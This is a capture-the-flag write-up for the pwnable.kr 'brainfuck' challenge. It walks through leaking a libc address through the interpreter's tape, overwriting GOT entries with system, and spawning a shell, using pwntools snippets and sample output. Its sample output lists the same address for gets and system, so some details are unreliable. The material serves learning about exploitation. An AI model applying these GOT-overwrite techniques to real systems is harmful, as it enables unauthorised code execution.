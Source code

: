 # 🧠 Pwnable.kr - Brainfuck CTF Writeup

## 📌 Challenge Summary

* **Name**: brainfuck
* **Platform**: [pwnable.kr](http://pwnable.kr)
* **Category**: Exploitation / Pwn
* **Difficulty**: Medium

We’re given a custom Brainfuck interpreter binary that allows us to input brainfuck instructions, except `[` and `]`. Our goal is to get a shell.

---

## 🔍 Analysis

The binary disables loops (`[` and `]`), limiting traditional brainfuck control flow. But we still have access to `,` (input), `.` (output), `<`, and `>` to manipulate the tape, and can abuse memory writes with `,`.

### Observations:

* There is a static tape pointer at address `0x0804a0a0`
* We can leak memory with `.`
* We can write arbitrary data with `,`
* GOT entries for functions like `fgets`, `memset`, `putchar` are writable

We use this to:

1. Leak a libc address (fgets)
2. Calculate libc base
3. Overwrite a GOT entry with `system`
4. Send `/bin/sh` as input to get a shell

---

## 💥 Exploit Strategy

### Step 1: Leak `fgets` address

```python
pl = move(tape, plt["fgets"])
pl += read(4)
pl += write(4)
```

This reads the 4-byte pointer from `fgets@GOT` and writes it back so we can read it with `.`, leaking the libc address.

### Step 2: Overwrite GOT entries

```python
pl += move(plt["fgets"], plt["memset"])
pl += write(4)
pl += move(plt["memset"], plt["putchar"])
pl += write(4)
pl += '.'  # trigger output
```

### Step 3: Parse libc leak and calculate `system`

```python
fgets = int.from_bytes(r.recvn(4), byteorder = "little", signed = False)
libc_base = fgets - offset["fgets"]
gets = libc_base + offset["gets"]
system = libc_base + offset["system"]
```

We use pwntools' ELF parser to grab the offsets for `fgets`, `gets`, and `system`:

```python
libc = ELF("./bf_libc.so")
offset = {
    "fgets": libc.symbols[b"fgets"],
    "gets": libc.symbols[b"gets"],
    "system": libc.symbols[b"system"]
}
```

---

## 📦 Final Payload Staging

We send a second payload:

1. Inputs `/bin/sh\x00` into tape
2. Moves to `memset@got` and overwrites it with `system`
3. The next call to `memset("/bin/sh")` triggers a shell

---

## 🧪 Sample Output

```
fgets: 0xf7e45160
gets:  0xf7e463f0
system: 0xf7e463f0
$ whoami
brainfuck
$ cat flag
...
```

---

## 🧠 Takeaways

* Even without loops, brainfuck can be weaponized with GOT overwrites
* pwntools + ELF is powerful for automated libc resolving
* Tape offset calculations are key in memory corruption Brainfuck challenges

---

## 📁 Files

* `brainfuck_exploit.py` (main script)
* `bf_libc.so` (libc dump from remote)

---

## ✅ Status: Solved

* Shell achieved ✔️
* Flag captured ✔️

